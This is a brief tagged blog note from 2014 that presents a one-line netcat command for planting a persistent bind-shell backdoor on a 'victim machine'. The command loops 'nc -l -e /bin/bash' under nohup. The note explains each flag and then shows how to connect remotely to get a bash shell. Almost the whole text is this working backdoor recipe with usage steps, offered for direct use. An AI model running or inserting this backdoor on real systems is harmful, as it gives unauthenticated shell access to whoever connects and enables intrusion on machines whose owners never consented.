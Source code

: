 Title: Simple Backdoor by using NetCat  
Date: 2014-07-06 11:03  
Author: m157q  
Category: Note  
Tags: NetCat, nc, Backdoor, Security  
Slug: simple-backdoor-by-using-netcat  
Modified: 2015-10-27 12:13  
  
  
## The one line script  
```sh  
$ nohup bash -c 'while true; do nc -l -e /bin/bash -p ${port}; done' &  
```  
  
  
## How this works  
  
+ `nohup` makes this backdoor immune to SIGHUP  
+ `bash -c ${string}` will run the `${string}` as command  
+ `nc -l` let nc keep listening on the port  
+ `nc -e ${sth}` means excute `${sth}` after connected  
+ `nc -p` to choose a port for nc to listen  
+ `${port}` is the backdoor port set on the victim machine.  
    + You can change it to a port number whatever you like.  
+ use shell scripting `while` for keeping listening  
  
  
## How to use  
  
After run the command above on the victim machine, you can just type  
  
```sh  
$ nc ${victim_ip} ${port}  
```  
  
to connect to the victim machine and get a bash shell as the same uid which ran the command.  
